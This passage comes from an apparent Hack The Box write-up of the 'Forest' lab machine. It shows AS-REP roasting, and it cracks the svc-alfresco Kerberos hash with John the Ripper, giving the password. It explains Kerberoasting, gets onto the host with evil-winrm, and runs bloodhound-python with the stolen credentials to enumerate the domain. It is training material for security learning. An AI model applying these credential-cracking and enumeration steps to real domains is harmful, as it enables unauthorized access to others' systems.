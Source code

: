Note that htb.local is the domain name and for this to work, it needs to be in the hosts file. We get a hit with svc-alfresco and we can take the returned result and crack it with John The Ripper giving us a password s3rvice:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Forest]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:05 DONE (2021-01-12 14:18) 0.1934g/s 790282p/s 790282c/s 790282C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

AS-REP Roasting is related to another attack called Kerberoasting. Kerberoasting requires a username and password of a user on the domain. With the credentials, the user can request a service ticket from any service. It doesn't matter whether the user is supposed to have access to this service because the KDC does not decide this, it is the role of the service to decide if the user is allowed to access it or not. Kerberoasting depends on being able to look up the service principal names \(SPNs\) of the service and requesting service tickets for them. We are going to be looking at this shortly but first we can use evil-winrm with this account to get onto the machine and find the user flag file user.txt in the svc-alfresco Desktop directory.

Back on our machine, we are going to run a tool called Bloodhound to map the relationships of the users on the domain graphically. There are a number of tools that will do the ingesting of data from the domain. On Windows, you can use SharpHound \(https://github.com/BloodHoundAD/SharpHound3\) but as we are on Parrot OS, we can simply install a Python version using pip:

{% hint style="info" %}
To install Bloodhound with pip:

`pip3 install bloodhound`
{% endhint %}

To run this, we specify the domain local.htb and point to forest.htb \(using its IP address\) as the name server:

```bash
┌─[rin@parrot]─[~]
└──╼ $bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -ns 10.129.1.77
INFO: Found AD domain: htb.local
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Found 31 users
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 75 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 01M 04S
```
